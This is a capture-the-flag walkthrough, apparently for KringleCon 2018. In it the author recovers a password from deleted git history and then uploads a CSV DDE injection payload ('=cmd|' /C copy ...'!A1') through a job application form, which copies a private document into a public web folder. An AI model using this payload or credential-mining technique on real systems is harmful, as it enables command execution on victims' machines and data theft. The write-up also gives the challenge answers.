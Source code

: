 ## Objective 7

> Santa uses an Elf Resources website to look for talented information security professionals. [Gain access to the website](https://careers.kringlecastle.com/) and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K"? 
> For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

### Challenge


> Coalbox again, and I've got one more ask.
> Sparkle Q. Redberry has fumbled a task.
> Git pull and merging, she did all the day;
> With all this gitting, some creds got away.
> Urging - I scolded, "Don't put creds in git!"
> She said, "Don't worry - you're having a fit.
> If I did drop them then surely I could,
> Upload some new code done up as one should."

> Find Sparkle's password, then run the runtoanswer tool.

For this challenge you will need:

- Search GIT for passwords: https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/
- GIT cheat sheet: https://gist.github.com/hofmannsven/6814451


The easiest thing to do is to check the git log for deletions:

```
elf@69b8d8354d79:~$ ls
kcconfmgmt  runtoanswer
elf@69b8d8354d79:~$ cd kcconfmgmt/
elf@69b8d8354d79:~/kcconfmgmt$ git log --diff-filter=D --summary
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

 delete mode 100644 server/config/config.js
```

Nice, check the log again for an earlier commit:
```
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

commit b2376f4a93ca1889ba7d947c2d14be9a5d138802
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 13:25:32 2018 -0500
```

then go back to `b2376f4a93ca1889ba7d947c2d14be9a5d138802` and see the deleted file:
```
elf@69b8d8354d79:~/kcconfmgmt$ git checkout b2376f4a93ca1889ba7d947c2d14be9a5d138802
Note: checking out 'b2376f4a93ca1889ba7d947c2d14be9a5d138802'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at b2376f4... Add passport module

elf@69b8d8354d79:~/kcconfmgmt$ cat server/config/config.js
// Database URL
module.exports = {
    'url' : 'mongodb://sredberry:twinkletwinkletwinkle@127.0.0.1:27017/node-api'
};
```

Got it!
```
elf@69b8d8354d79:~/kcconfmgmt$ runtoanswer 
Loading, please wait......



Enter Sparkle Redberry's password: twinkletwinkletwinkle


This ain't "I told you so" time, but it's true:
I shake my head at the goofs we go through.
Everyone knows that the gits aren't the place;
Store your credentials in some safer space.

Congratulations!
```



**Hint**: CSV Injection: https://www.owasp.org/index.php/CSV_Injection

**Hint**: CSV DDE Injection talk: https://www.youtube.com/watch?v=Z3qpcKVv2Bg


### Objective completion

The target site consists in a career application form, try to register yourself:


> Thank you for taking the time to upload your information to our elf resources shared workshop station! Our elf resources will review your CSV work history within the next few minutes to see if you qualify to join our elite team of InfoSec Elves. If you are accepted, you will be added to our secret list of potential new elf hires located in C:\candidate_evaluation.docx

The network call is straightforward:
```
https://careers.kringlecastle.com/api/upload/application
firstname: some
lastname: one
phone: 234534534534
email: some@one.it
csv: (binary)
```

Ok, so we don't have direct access to the target file, but we know its full path (`C:\candidate_evaluation.docx`) and we know that an elf will open our CSV.

We could implement a reverse shell CSV injection or a remote file upload, but maybe there's something simpler... Let's try to mess up the URL as we did in Obj. 2. https://careers.kringlecastle.com/api/something will return a nice 404 page:
```
404 Error!

Publicly accessible file served from: 
C:\careerportal\resources\public\ not found......



Try: 
https://careers.kringlecastle.com/public/'file name you are looking for'
```

So there's a direct mapping from `https://careers.kringlecastle.com/public/` and the directory `C:\careerportal\resources\public\`.

We need to craft a CSV injection that copies `candidate_evaluation.docx` in the right place, send it and wait a few minutes for an Elf to open it (and ignores the warning, we hope!).


The CSV is quite simple, it contains the injection only (see `inject.csv`):
```
=cmd|' /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public'!A1
```

*Note*: To be sure you can replicate the directory structure on your testing machine, create a fake docx file and import the csv into excel: the file should be copied instantly.

Time to send our crafted CSV with the career application form, wait a few minutes then try https://careers.kringlecastle.com/public/candidate_evaluation.docx: download it!

The bad guy's name is quite "known", read through the file to get the name of the terrorist organization.





**Objective answer**: `Fancy Beaver`

